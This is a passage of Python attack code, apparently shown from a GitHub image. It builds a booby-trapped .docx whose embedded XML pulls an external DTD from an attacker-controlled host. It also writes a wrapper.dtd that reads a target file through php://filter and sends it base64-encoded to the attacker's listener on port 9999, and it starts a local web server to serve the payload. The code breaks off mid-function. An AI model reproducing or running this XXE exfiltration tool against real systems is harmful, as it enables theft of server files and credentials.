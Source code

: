 ```py
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Function to just prepare the folders docx
def prepareDoc(lhost):
    print("[+] Let's prepare the folders to be ziped ! [+]")
    os.system("mkdir Doc")
    os.system("mkdir Doc/customXml")
    os.system("mkdir Doc/word")
    # Create the files and the item1.xml
    document = '''<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" mc:Ignorable="w14 wp14"><w:body><w:p><w:pPr><w:pStyle w:val="Normal"/><w:bidi w:val="0"/><w:jc w:val="left"/><w:rPr></w:rPr></w:pPr><w:r><w:rPr></w:rPr><w:t xml:space="preserve"> </w:t></w:r></w:p><w:sectPr><w:type w:val="nextPage"/><w:pgSz w:w="11906" w:h="16838"/><w:pgMar w:left="1134" w:right="1134" w:header="0" w:top="1134" w:footer="0" w:bottom="1134" w:gutter="0"/><w:pgNumType w:fmt="decimal"/><w:formProt w:val="false"/><w:textDirection w:val="lrTb"/></w:sectPr></w:body></w:document>'''
    f = open("Doc/word/document.xml", "w")
    f.write(document)
    f.close()
    # item1.xml
    payload = '<?xml version="1.0" ?>\n'
    payload += '<!DOCTYPE xxe [\n'
    payload += '<!ENTITY % ext SYSTEM "http://' + lhost + '/wrapper.dtd">\n'
    payload += '  %ext;\n'
    payload += '  %file;\n'
    payload += ']>\n'
    payload += '<xxe>&exfil;</xxe>' 
    f = open("Doc/customXml/item1.xml", "w")
    f.write(payload)
    f.close()
    print("[+] Folders structude done ! [+]")
    os.system("cd Doc; zip -r ../xee.docx *")
    print("[+] XEE.DOCX CREATED !! [+]")

# Create the wrapper which will iterate trought the file name
def createWrapper(lhost,file):
    payload = '''<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=''' + file + '">\n'
    payload += '''<!ENTITY % file "<!ENTITY exfil SYSTEM 'http://''' + lhost + ''':9999/%data;'>">'''
    f = open("wrapper.dtd", "w")
```